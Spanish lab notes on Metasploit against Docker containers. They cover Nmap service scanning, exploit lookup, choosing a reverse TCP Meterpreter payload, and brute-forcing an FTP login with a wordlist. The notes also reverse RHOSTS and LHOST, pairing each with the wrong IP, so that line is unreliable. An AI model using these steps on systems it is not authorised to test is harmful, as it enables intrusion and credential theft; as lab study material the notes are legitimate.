 ### Encontrar un exploit que vayamos a usar
- Primero realizaremos un escaneo con **Nmap** independiente o bien con el nmap integrado de **metasploit**. El objetivo es buscar exploits aplicables a los servicios y sus versiones concretas encontrados en la base de datos de **Metasploit**. Esta base de datos se puede consultar aquí: https://www.rapid7.com/db/?type=metasploit. También puedes agregar exploits de **searchsploit** a MSF.
- Para usar nmap de Metasploit: `db_nmap -sV <ip>`
- Una vez tengas los servicios y versiones, busca en la base de datos CVE (http://www.cvedetails.com/) los exploits disponibles para los servicios que encontraste
- Localizar más exploits en: http://www.exploit-db.com/
- Ahora buscamos el exploit en Metasploit con: `search <palabras clave>`
![](img/Pasted image 20230601115634.png)
![](img/Pasted image 20230601120514.png)

### Ejecución de un exploit
- Una vez que lo hemos encontrado, usaremos el siguiente comando: `use <exploit> - set payload <payload> - show options - set options <...> - exploit`
- Para este caso concreto, necesitaremos configurar los parámetros del exploit:
	- Payload:
		- Consulta los payloads disponibles para un exploit con `show payloads`
		- Como hay muchas opciones disponibles y nosotros queremos una conexión TCP inversa para evitar firewalls, restringimos la búsqueda con: `search payload/linux -t reverse`
		- Una vez aquí debemos elegir el nombre completo del payload a aplicar. Para decidir cuál usar:
			- Tenemos un sistema de destino Linux
			- Vamos a usar una conexión TCP inversa (reverse shell)
			- Necesitamos elegir entre un Meterpreter o un shell estándar (mejor probar Meterpreter)
			- Se trata de una arquitectura x64
			- Luego podemos elegir entre un **Stager** o un payload inline (**stageless**). (en Docker el segundo funciona mejor)
			- Elige el payload que cumpla con estas condiciones con: `set payload <nombre>`![](img/Pasted image 20230601120455.png)![](img/Pasted image 20230601120651.png)
	- Resto de parámetros:
		- Una vez elegido el payload, consulta la información detallada del exploit con `info <nombre_exploit>` para ver sus opciones y resto de los parámetros
		- **NOTA**: también se puede usar el comando `options` y verlo manualmente ![](img/Pasted image 20230601120926.png)
		- Vemos que nos falta por configurar: RHOSTS y LHOST. Los configuramos y ejecutamos el exploit con: `set RHOSTS <IP_ATTACKER>` Y `set LHOST <IP_OBJETIVO>` ![](img/Pasted image 20230601121150.png)
- Lamentablemente, parece no ser vulnerable :(
![](img/Pasted image 20230601121745.png)

### Uso de módulos auxiliares de MSF
- Vamos a hacer fuerza bruta a un servidor FTP presente en el contenedor de Ubuntu.
- Para ello:
	- El módulo auxiliar se denomina `ftp_login`
	- Lo usamos: `use <nombre>` ![](img/Pasted image 20230601122121.png)
	- Da permisos de lectura para todos al archivo `/wordlist/2020mostcommon.txt`
	- Establece las opciones adecuadas para lanzar el exploit ![](img/Pasted image 20230601122600.png) ![](img/Pasted image 20230601122722.png)
